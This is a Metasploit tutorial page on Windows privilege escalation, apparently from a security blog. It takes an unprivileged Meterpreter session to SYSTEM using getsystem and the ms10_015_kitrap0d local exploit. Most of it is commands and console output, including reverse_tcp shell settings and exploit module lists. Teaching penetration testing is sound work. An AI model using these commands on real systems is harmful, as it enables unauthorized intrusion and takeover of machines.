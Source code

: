 ```yaml
---
draft: false
title: MSF Privilege Escalation
linkTitle: Privilege Escalation
translationKey: msf-privilage-escalation
weight: 240
date: 2017-05-25T13:16:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Privilege escalation is the act of exploiting a bug, design flaw or configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user.
url: /msf-privilege-escalation/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## What next?

You have done the necessary work to find a system's vulnerability. You have found the vulnerability and after following the correct steps, you have managed to open a command line on the target computer. So what should be done next?

From this article on, we will examine the concept of privilege escalation. The security auditor who accesses the opposing system should aim to progress from this stage onwards. Controlling ongoing communication on the network and obtaining hash values ​​can be given as examples of these. Another goal should be to access other computers using this computer as a step (Eng: Pivoting).

Even if the vulnerability you used and the exploit module for it helped you log in to the opposing computer, you may have opened an unauthorized session. In this case, the operations you can do will be limited. There are a few alternative modules in the Metasploit Framework for such cases. One of them is the `getsystem` command.

## Unauthorized Session

As seen in the example below, an unauthorized meterpreter session was opened on the target system using the `ms10_002_aurora` module.

```bash
msf exploit(ms10_002_aurora) >
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 3 opened (192.168.1.71:38699 -> 192.168.1.161:4444) at 2010-08-21 13:39:10 -0600

msf exploit(ms10_002_aurora) > sessions -i 3
> Starting interaction with 3...

meterpreter > getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter >
```

## GetSystem

`getsystem` command To use it, first let's load the `priv` extension to the system.

```bash
meterpreter > use priv
Loading extension priv...success.
meterpreter >
```

As in the `getsystem -h` command, you can see the available options when you use the `-h` parameter.

```bash
meterpreter > getsystem -h Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

-h Help Banner.
-t <opt> The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)

meterpreter >
```

If you do not give any parameters to the ```getsystem``` command, it will try all possibilities by default.

```bash
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Using Local Exploit

In some cases, `getsystem` fails. You can see an example of this below. When `getsystem` fails, it is necessary to send the session to the background and use other exploit modules in the Metasploit Framework.

```bash
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter >
```

Above is the output of a failed `getsystem` command. Let's send it to the background and look at the available local exploit modules.

```bash
meterpreter > background
> Backgrounding session 1...
msf exploit(ms10_002_aurora) > use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit(ms10_002_aurora) >
```

Let's use the `exploit/windows/local/ms10_015_kitrap0d` module from the modules in this list.

```bash
msf exploit(ms10_002_aurora) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > set SESSION 1
msf exploit(ms10_015_kitrap0d) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.1.161
msf exploit(ms10_015_kitrap0d) > set LPORT 4443
msf exploit(ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port
Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)
msf exploit(ms10_015_kitrap0d) > exploit

>  Started reverse handler on 192.168.1.161:4443 
>  Launching notepad to host the exploit...
[+]  Process 4048 launched.
>  Reflectively injecting the exploit DLL into 4048...
>  Injecting exploit into 4048 ...
>  Exploit injected. Injecting payload into 4048...
>  Payload injected. Executing exploit...
[+]  Exploit finished, wait for (hopefully privileged) payload execution to complete.
>  Sending stage (769024 bytes) to 192.168.1.71
>  Meterpreter session 2 opened (192.168.1.161:4443 -> 192.168.1.71:49204) at 2014-03-11 11:14:00 -0400
```

After making the necessary module and payload settings, the exploit that was run managed to open a session on the target system. Now, when we give the `getuid` command, we can act as an authorized user `SYSTEM` as seen below.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
